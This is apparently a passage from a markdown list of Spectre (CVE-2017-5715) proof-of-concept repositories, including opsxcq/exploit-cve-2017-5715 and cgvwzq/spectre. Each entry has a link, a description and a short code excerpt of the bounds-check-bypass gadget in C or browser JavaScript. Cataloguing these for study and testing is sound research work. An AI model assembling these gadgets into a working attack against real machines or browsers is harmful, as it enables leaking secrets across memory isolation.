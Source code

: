 ```c
void ecall_victim_function(size_t x, uint8_t * array2, unsigned int * outside_array1_size) {
	//if (x < array1_size) {
	if (x < *outside_array1_size) {
		 temp &= array2[array1[x] * 512];
	 }
}
```

## opsxcq/exploit-cve-2017-5715
* Link: [https://github.com/opsxcq/exploit-cve-2017-5715](https://github.com/opsxcq/exploit-cve-2017-5715)
* Description: Sending secrets at a relative realistic scenario, and observing secrets at page level.
* Tool: C

```c
void accessPage(int page) {
  int value=0;
  if (page < indexArraySize) {
    value = value & attackArray[indexArray[page] * PAGE_SIZE];
  }
}
```

## cgvwzq/spectre
* Link: [https://github.com/cgvwzq/spectre](https://github.com/cgvwzq/spectre)
* Fork: [ascendr/spectre-chrome](https://github.com/ascendr/spectre-chrome)
* Tool: C, JavaScript
* Description: Test whether a browser is vulnerable, extracted from [http://xlab.tencent.com/special/spectre/spectre_check.html](http://xlab.tencent.com/special/spectre/spectre_check.html)

```JavaScript
function vul_call(index, sIndex)
    {
        index = index |0;
        sIndex = sIndex |0;
        var arr_size = 0;
        var j = 0;
        junk = probeTable[0]|0;
        // "size" value repeated at different offsets to avoid having to flush it?
        j = (((sIndex << 12) | 0) +  sizeArrayStart)|0;
        arr_size = simpleByteArray[j|0]|0;
        if ((index|0) < (arr_size|0))
        {
            index = simpleByteArray[index|0]|0;
            index = (index << 12)|0;
            index = (index & ((TABLE1_BYTES-1)|0))|0;
            junk = (junk ^ (probeTable[index]|0))|0;
        }
    }
```
